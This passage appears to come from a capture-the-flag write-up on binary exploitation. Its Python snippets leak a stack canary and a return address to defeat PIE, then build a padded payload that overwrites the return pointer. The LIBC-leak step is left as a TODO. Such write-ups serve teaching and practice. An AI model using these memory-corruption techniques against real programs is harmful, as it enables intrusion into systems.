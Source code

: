 ```python
leaks = read()[1032:]

canary = u64(leaks[:8])
log.success(f'Canary: {hex(canary)}')

ret_pointer = u64(leaks[16:24])
elf.address = ret_pointer - 0xf54
log.success(f'PIE Base: {hex(elf.address)}')
```

Now we need to somehow read a GOT entry. Since the binary uses `write()`, it's possible. But first we need to get the copy working in a way that it starts overwriting at _exactly_ the return pointer. With a bit of messing about, I got a function that seemed to work.

```python
def deliver_payload(payload):
    payload = 'A' * 12 + payload
    payload = payload.ljust(0xff, 'A')

    write(payload)
    write('B' * 0xff)
    write('C' * 0xff)
    write('D' * 0xff)

    copy(12 + len(payload))
```

We're 12 off the canary at the end, so we put 12 `A` characters ahead and copy 12 extra.

### Leaking LIBC

TODO

